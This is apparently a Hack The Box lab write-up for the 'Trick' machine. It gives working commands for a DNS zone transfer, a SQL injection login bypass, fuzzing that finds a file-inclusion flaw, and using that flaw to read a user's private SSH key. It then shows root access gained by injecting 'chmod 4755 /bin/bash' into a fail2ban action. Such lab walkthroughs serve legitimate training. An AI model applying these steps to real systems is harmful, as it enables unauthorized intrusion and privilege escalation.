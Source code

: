 **Target:  10.10.11.166    trick.htb**

**Initial Access:**\
nmap -Pn 10.10.11.166 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ','\
Output shows open ports: 22,25,53,80

Enumerating these open ports further with nmap:\
nmap -Pn 10.10.11.166 --min-rate=5000  -p 22,25,53,80 -sC -sV -oN nmap.trick

![image](https://user-images.githubusercontent.com/93153300/197863434-3a453cf2-a744-4f75-b9c9-91e36a5fea23.png)
 
Enumerating port 53 with dig:\
First, put into file /etc/hosts: 10.10.11.166  trick.htb\
Next run command: dig any trick.htb  10.10.11.166\
Found a new domain: root.trick.htb.	\
Add this into /etc/hosts: 10.10.11.166  root.trick.htb\
However, navigating to that page doesn’t show anything of interest.

Next, try a domain transfer: \
dig axfr trick.htb @10.10.11.166\
Output shows a new domain:  preprod-payroll.trick.htb\
Add this to /etc/hosts:   10.10.11.166  preprod-payroll.trick.htb

Navigate to http://preprod-payroll.trick.htb		\
Automatically get redirected to a login page: http://preprod-payroll.trick.htb/login.php \
Bypass the login by entering a sql injection in the username password field:  ‘ or 1=1--

It works, and we get logged in as Administrator, and redirected to: http://preprod-payroll.trick.htb/index.php?page=home \
However, navigating this page leads to nothing of interest.  

Looking at the domain preprod-payroll.trick.htb , let’s fuzz and see if we can find other subdomains.  Since payroll is a description of a certain field in a company, maybe other fields will show a hidden subdomain. To fuzz the payroll field run:  \
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host:preprod-FUZZ.trick.htb" -u "http://trick.htb" --hh 5480  
Found a new subdomain:   preprod-marketing.trick.htb\
Add this to /etc/hosts: 10.10.11.166   preprod-marketing.trick.htb\
Navigating to that site shows:

![image](https://user-images.githubusercontent.com/93153300/197863486-276a86d0-fc8a-492e-8768-48ce0e3c23a9.png)

Clicking on the top of the page on 'services' directs to:\
http://preprod-marketing.trick.htb/index.php?page=services.html

The parameter ?page= could be vulnerable to lfi.  Fuzz for lfi with command:\
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://preprod-marketing.trick.htb/index.php?page=FUZZ" --hh 0

Output reveals it is vulnerable to lfi:   \
http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd

![image](https://user-images.githubusercontent.com/93153300/197863529-d5d79994-c85d-4896-bb08-7017b9766c91.png)

This reveals a user on the target named michael.   Upon checking, we find user Michael has a private ssh key: http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa	

![image](https://user-images.githubusercontent.com/93153300/197863588-acf15dbd-9f73-42e1-adab-d813facabd03.png)
 

Create a file containing michael's private key.  Next, change permissions to the file so it doesn’t error when using it: chmod 600 id_rsatarget.\
Finally, ssh into user michael with his private key:\
ssh -i id_rsatarget michael@10.10.11.166\
We have shell as michael, open /home/michael/user.txt to get the flag.
____________________________________________________________________________
**Privilege Escalation:** \
Run command: sudo -l

![image](https://user-images.githubusercontent.com/93153300/197863644-6cf09356-ccea-4018-a6c8-34ee9f08a4a2.png)
Google search 'fail2ban privilege escalation'.  Their are plenty of articles showing this privilege escalation.  
Fail2ban is an application run by root that will run a command to ban an ip from ssh login if a password is entered incorrectly too many times within a certain time limit.  

If we can edit the fail2ban file /etc/fail2ban/action.d/iptables-multiport.conf then we can add a command that will run when too many incorrect passwords are entered.  In essence, we'll be able to cause fail2ban to run any command we want.    

In order for fail2ban to apply any changes we make we must be able to restart fail2ban.  Only after the restart will fail2ban update our changes.  Let’s check the 2 steps needed to be able to use this exploit.

Step 1: Check if we have permission to restart fail2ban:\
Sudo -l command that we ran above showed that we have permission to restart fail2ban.  

Step 2: Check if we can edit the file with command: ls -al  /etc/fail2ban/action.d/iptables-multiport.conf	 

![image](https://user-images.githubusercontent.com/93153300/197863697-088b2205-6250-4702-9dba-0d37efba2c3a.png)
 
Output shows that user michael, cannot write to this file, However, ls -al on directory /etc/fail2ban/action.d/ does show that the group security has full permissions in this folder.  \
Run command ‘id’ to check what groups user michael is part of.   Output on command id confirms that Michael is part of the security group, so we can edit this file. 

Seeing that we have permissions to perform both steps let’s use this to escalate to root.\
First, open file iptables-multiport.conf: vi iptables-multiport.conf\
Then, under ‘actionban’, add command: chmod 4755 /bin/bash

![image](https://user-images.githubusercontent.com/93153300/197863738-15074845-4878-4b96-813a-47080289f64a.png)
 

Next, update fail2ban by restarting it:\
sudo /etc/init.d/fail2ban restart

Finally, log into ssh and enter the incorrect password many times.  To be sure to pass the permitted limit of incorrect passwords in time, we will use a basic bash script and run it from our terminal:  \
while true;  do sshpass -p password ssh michael@10.10.11.166; done

ls -al confirms /bin/bash permissions have changed to have suid permissions.

![image](https://user-images.githubusercontent.com/93153300/197863764-f444322a-4d1e-4270-898a-f98bcf1cf909.png)
 
To escalate to root:\
/bin/bash -p 

We are now root, open /root/root.txt  to get the flag.
